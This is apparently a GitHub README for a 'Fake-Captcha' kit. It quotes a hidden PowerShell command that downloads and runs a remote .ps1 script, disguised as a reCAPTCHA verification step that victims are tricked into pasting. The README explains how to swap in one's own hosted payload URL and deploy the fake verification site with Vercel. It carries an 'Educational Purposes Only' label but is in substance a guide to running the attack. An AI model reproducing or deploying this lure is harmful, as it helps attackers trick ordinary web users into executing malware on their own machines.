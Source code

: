 # Educational Purposes Only

I will not show you how to make the powershell script (as its illegal)




# Go to captcha.html

go to this line:

const commandToCopy = `powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden -Command "iwr '${window.location.origin}/2.ps1' -UseBasicParsing | iex # ✔ I am not a robot - reCAPTCHA Verification ID: ${verificationId}

# and replace "${window.location.origin}/2.ps1" 
with your own link with a .ps1 file hosted or keep it the same if the file is hosted on the same domain as the website your on (you can change /2.ps1 with anything (example: /verify) or anything like that (pretty sure it will still work)


# if you want to see what the sites look like
download this [Latest](https://github.com/vxcnnn/Fake-Captcha/archive/refs/heads/main.zip) and open the thing in cmd and type "npm install vercel" and then do "vercel" and set everything up then do "vercel --prod" and go to the link



chatgpt code (used just to combine everything in 1, as i was lazy)
